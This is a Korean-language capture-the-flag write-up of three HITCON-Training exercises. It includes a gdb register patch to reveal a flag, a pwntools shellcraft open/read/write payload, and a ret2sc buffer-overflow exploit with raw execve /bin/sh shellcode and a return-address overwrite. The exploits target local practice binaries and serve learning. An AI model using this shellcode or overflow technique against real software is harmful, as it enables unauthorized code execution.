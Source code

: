 # HITCON-Training
## Lab1-sysmagic
32bit 프로그램이 열리지가 않아서 고생했다.
sudo-apt로 몇가지를 깔고 나니 해결되었다. 
문제는 상당히 간단한 편이었다. 
~~~c
#include <stdio.h>
#include <unistd.h>



void get_flag(){
	int fd ;
	int password;
	int magic ;
	char key[] = "Do_you_know_why_my_teammate_Orange_is_so_angry???";
	char cipher[] = {7, 59, 25, 2, 11, 16, 61, 30, 9, 8, 18, 45, 40, 89, 10, 0, 30, 22, 0, 4, 85, 22, 8, 31, 7, 1, 9, 0, 126, 28, 62, 10, 30, 11, 107, 4, 66, 60, 44, 91, 49, 85, 2, 30, 33, 16, 76, 30, 66};
	fd = open("/dev/urandom",0);
	read(fd,&password,4);
	printf("Give me maigc :");
	scanf("%d",&magic);
	if(password == magic){
		for(int i = 0 ; i < sizeof(cipher) ; i++){
			printf("%c",cipher[i]^key[i]);
		}
	}
}


int main(){
	setvbuf(stdout,0,2,0);
	get_flag();
	return 0 ;
}
~~~
위와 같은 코드를 확인가능했다. cmp 주소를 확인해봐야 할 거 같아서 gdb를 켰다.
~~~
   0x0804870d <+370>:	push   0x804884d
   0x08048712 <+375>:	call   0x8048480 <__isoc99_scanf@plt>
   0x08048717 <+380>:	add    esp,0x10
   0x0804871a <+383>:	mov    edx,DWORD PTR [ebp-0x80]
   0x0804871d <+386>:	mov    eax,DWORD PTR [ebp-0x7c]
   0x08048720 <+389>:	cmp    edx,eax
   0x08048722 <+391>:	jne    0x8048760 <get_flag+453>
   0x08048724 <+393>:	mov    DWORD PTR [ebp-0x78],0x0
   0x0804872b <+400>:	jmp    0x8048758 <get_flag+445>
   0x0804872d <+402>:	lea    edx,[ebp-0x6f]
   0x08048730 <+405>:	mov    eax,DWORD PTR [ebp-0x78]
~~~
389번째 줄에서 cmp가 일어나는 것을 알 수 있었고 break *get_flag+389를 해주었다. 프로그램을 한번 돌려준 후 
~~~pwndbg
*EAX  0x170c6ecd
 EBX  0x0
 ECX  0x1
 EDX  0x170c6ecd
 EDI  0x0
 ESI  0xf7fb7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d6c
 EBP  0xffffd148 —▸ 0xffffd158 ◂— 0x0
 ESP  0xffffd0c0 —▸ 0x804a020 (_GLOBAL_OFFSET_TABLE_+32) —▸ 0xf7e472b0 (setvbuf) ◂— push   ebp
 EIP  0x8048720 (get_flag+389) ◂— cmp    edx, eax
~~~
set eax를 edx의 값으로 설정했더니 
*CTF{debugger_1s_so_p0werful_1n_dyn4m1c_4n4lySis!}*
를 확인가능했다.
프로그램이 안 열려서 애먹은 거에 비해 간단한 문제였다
## Lab2-orw
이 문제는 서버가 닫혀 있어서 방법론만 공부하였다. 
~~~
Give my your shellcode:
~~~
프로그램을 실행하니 위와 같이 반응했다. 그리고 pwntool을 통해 짜놓은 exploit code를 hitcon-training git에서 확인했다. shell을 짜려고 하는데 shellcraft라는 방식을 사용해 보았다.
~~~Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
   0x08048598 <+80>:	ret    
~~~
위는 dissasemble main의 결과이다. 
~~~python
from pwn import *
r=process("orw.bin")
pay=""
pay+=asm(shellcraft.open("./lab2flag.txt"))
pay+=asm(shellcraft.read("eax","esp",100))
pay+=asm(shellcraft.write(1,"esp",100))
r.recvuntil("shellcode:")
r.sendline(pay)
r.interactive()
~~~
flag.txt에 flag가 들어있을 것을 가정했다.(정보가 없어서 다른 wirteup을 참고했다). shellcraft.open에서는 flag.txt에서 flag를 가져온다고 가정하였다. eax에서 받은 100byte 즉 flag 부분을 esp에 저장시킨 후 다시 100byte만큼 write하도록 payload를 작성했다. 문제의 원형태를 몰라 writeup를 참고했으나 이 역시 어려운 문제는 아닌 듯하다. 
## ret2sc
문제를 보고 조금 반가웠던 건 전형적인 bof 문제여서다. 딱봐도 name에다가 shellcode 넣어두고 gets에서 실행하라는 식으로 짜놓은 것을 ida를 통해 확인했다.
~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name:");
  read(0, &name, 0x32u);
  printf("Try your best:");
  return (int)gets(&s);
}
~~~
name의 주소는 0x804A060 name 이였다.
~~~python
from pwn import *

p=process('./ret2sc')
ELF('./ret2sc')

name=''
name+="A"*10
name+="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"

best=''
best+="A"*32
best+=p32(0x804a060)

p.sendafter(':',name)

p.sendafter(':',best)

p.interactive()
~~~
위는 내가 짠 코드이다. 문제들이 전체적으로 무난하다.
